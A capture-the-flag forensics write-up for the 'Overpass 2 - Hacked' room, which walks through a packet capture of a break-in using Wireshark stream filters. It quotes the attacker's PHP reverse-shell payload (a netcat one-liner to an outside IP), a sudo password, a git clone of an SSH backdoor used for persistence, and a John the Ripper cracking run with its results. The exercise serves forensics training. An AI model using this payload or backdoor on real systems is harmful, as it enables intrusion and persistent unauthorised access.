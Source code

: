 # Overpass 2 - Hacked
* SOC team noticed suspicious activity on late night shift.
* Packets captured as attack happened.
## Forensics - Analyse the PCAP
1. What was the URL of the page they used to upload a reverse shell?
   * Follow TCP Stream (`tcp.stream eq 1`).
```
POST /development/upload.php HTTP/1.1
```
2. What payload did the attacker use to gain access?
  * Follow TCP Stream (`tcp.stream eq 1`).
```
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```
3. What password did the attacker use to privesc?
   * Follow TCP Stream (`tcp.stream eq 3`).
```
[sudo] password for james: whenevernoteartinstant
```
4. How did the attacker establish persistence?
   * Follow TCP Stream (`tcp.stream eq 3`).
```
git clone https://github.com/NinjaJc01/ssh-backdoor
```
5. Using the fasttrack wordlist, how many of the system passwords were crackable?
   1. Copy and paste exposed shadow file from PCAP `tcp.stream eq3` into "shadowfile" file.
   2. Run JtR against shadowfile.
```
john --wordlist=/usr/share/wordlists/fasttrack.txt shadowfile
[...snip...]
secret12         (bee)     
abcd123          (szymex)     
1qaz2wsx         (muirland)     
secuirty3        (paradox)
[...snip...]
```
